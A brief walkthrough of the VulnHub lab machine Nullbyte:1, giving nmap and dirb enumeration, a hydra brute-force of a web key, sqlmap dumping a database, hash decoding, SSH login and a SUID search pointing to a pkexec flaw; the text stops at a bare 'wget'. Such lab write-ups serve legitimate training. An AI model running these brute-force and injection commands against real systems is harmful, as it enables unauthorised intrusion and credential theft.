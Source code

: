 

# Nullbyte:1 Walkthrough 

**VulnHub Link:** [Nullbyte:1](https://www.vulnhub.com/entry/nullbyte-1,126/)
**Difficulty:** Easy
**Release Date:** 1 Aug 2015

## 1.Reconnaissance

```bash
nmap -A -O -T4 -P -sV 192.168.100.167
```

## 2.Web Enumeration

dirb http://192.168.100.167

we download image.gif from index.php

```bash
exiftool image.gif
```

we obtain kzMb5nVYJw 

<url>/kzMb5nVYJw ---> key required

```bash
hydra 192.168.100.167 -l user -P /usr/share/wordlists/rockyou.txt http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:F=invalid key"
```

elite found

we intercept the request using burpsuite and copy to file named results.req

```bash
sqlmap -r results.req --dbs --batch
sqlmap -r results.req --dbs --batch -D seth --dump 
```

and then we found user named "ramses"

```bash
echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d
```

we obtain c6d6bd7ebf806f43c76acc3681703b81 and cracked in crackstation ---> "omega"

```bash
ssh ramses@192.168.100.167 -p 777
```

```bash
find / -perm /4000 2>/dev/null
```

pkexec vuln exists.

wget 

